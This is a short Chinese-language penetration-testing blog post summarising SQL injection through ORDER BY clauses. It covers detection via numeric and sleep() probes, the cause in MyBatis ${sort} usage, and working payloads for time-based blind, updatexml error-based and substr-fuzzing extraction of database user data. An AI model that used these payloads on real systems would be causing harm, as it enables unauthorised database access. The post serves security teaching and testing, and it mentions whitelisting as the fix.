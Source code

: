 ```yaml
---
layout: post
title: Order by Injection Exploit Summary
categories: [Pen-test]
Description: Order by 注入总结
keywords: SQL
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```




Description: Order by injection exploit summary.

## 判断order by注入

当你看到一个查询结果有排序小箭头时，要额外注意，这可能一个SORT(排序)键值，抓包后可能是这样的。
    
![](/images/orderbysql/1.png)

后端SQL语句就差不多类似
        
```shell

select * from table where id =1 order by zzf desc;

```

这种地方在java-mybatis环境中容易引发注入问题，原因很简单，在mybatis中order by ${sort}传的是列名不能用#{}，因此需要额外用白名单处理。有的开发没处理就有注入了。

如何判断这里有order by注入呢？很简单，原理跟最基础的联合注入利用order by爆破字段数量是一样的。
order by (1)  不报错
order by (10000000) 报错
    
这样就基本能判断出来这里有order by注入了。
当然也可以直接order by sleep(1)。
    
## order by注入利用
    
### 时间盲注
    
能用sleep(1)就能构造最简单的基于时间延迟的布尔盲注。

select * from test_table order by if(1=1,sleep(1),1);
    
![](/images/orderbysql/swappy-20241204-164412.png)
    
> 但它有个很大的缺点，就是有几条数据就重复几次sleep(1)。
    
### 报错注入
    
经典的updatexml()
    
```shell

select * from test_table  order by updatexml(1,concat(0x7e,(select user()),0x7e),1);

```
    
![](/images/orderbysql/swappy-20241204-164602.png)
    
## FUZZ
    
```shell

(case when substr(CURRENT_USER,1,1)='r' then rand(exp(99999999)) else 1 end)

```
    
![](/images/orderbysql/swappy-20241204-164812.png)

